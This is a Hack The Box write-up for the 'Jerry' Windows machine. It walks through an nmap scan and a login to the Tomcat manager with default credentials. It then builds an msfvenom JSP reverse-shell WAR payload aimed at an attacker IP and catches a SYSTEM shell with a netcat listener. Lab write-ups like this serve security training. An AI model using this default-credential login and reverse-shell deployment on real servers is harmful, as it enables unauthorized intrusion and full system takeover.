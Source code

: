 ```yaml
---
permalink: /posts/HTB/Jerry
title:  "HTB Jerry"
author: Luc Kolen
description: "Jerry is an easy Windows machine on HTB running Apache Tomcat"
categories:
  - CTF
  - HTB
tags: HTB Windows Tomcat
---
```

# 10.10.10.95 - Jerry

- [10.10.10.95 - Jerry](#10101095---jerry)
  - [Open ports](#open-ports)
  - [Tomcat](#tomcat)

## Open ports

```bash
luc@kali:~/Documents/Cyber-security/HTB/Jerry$ nmap -vv --reason -Pn -A --osscan-guess --version-all -p- 10.10.10.95
```

![NMAP results](/assets/images/HTB-Jerry-images/1.a%20NMAP%20results.png)

|Port|Service|
|---|---|
|8080/tcp|Apache Tomcat/Coyote JSP engine 1.1|

## Tomcat

The only available port is `8080` with Apache Tomcat running. Browsing to `http://10.10.10.95:8080/` only shows the default page so it hasn't been setup. A service that hasn't been setup has a high chance of using default credentials. Browsing to the admin panel at `http://10.10.10.95:8080/manager/html` shows us a 401 error message, but also the explanation on how to setup Tomcat and the default credentials `username:tomcat` and `password:s3cret`.

![Tomcat 401 page showing default credentials](/assets/images/HTB-Jerry-images/1.b%20Tomcat%20401%20page%20showing%20default%20credentials.png)

Refreshing the page and entering these credentials will show us the `Tomcat Web Application Manager`. This page allows us to deploy a WAR file on the server. We can use MSFVenom to create our payload as a WAR file.

```bash
luc@kali:~/Documents/Cyber-security/HTB/Jerry/payload$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.16 LPORT=443 -f war > shell.war
```

![Upload created WAR file](/assets/images/HTB-Jerry-images/1.c%20Upload%20created%20WAR%20file.png)

Opening `http://10.10.10.95:8080/shell/` after uploading our WAR file will execute the payload and open a connection to the Netcat listener. Tomcat was running as system so there is no need for privilege escalation.

```bash
luc@kali:~/Documents/Cyber-security/HTB/Jerry$ sudo nc -lvnp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.95.
Ncat: Connection from 10.10.10.95:49193.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
nt authority\system
C:\apache-tomcat-7.0.88>cd ../Users/Administrator/Desktop/flags
C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
```
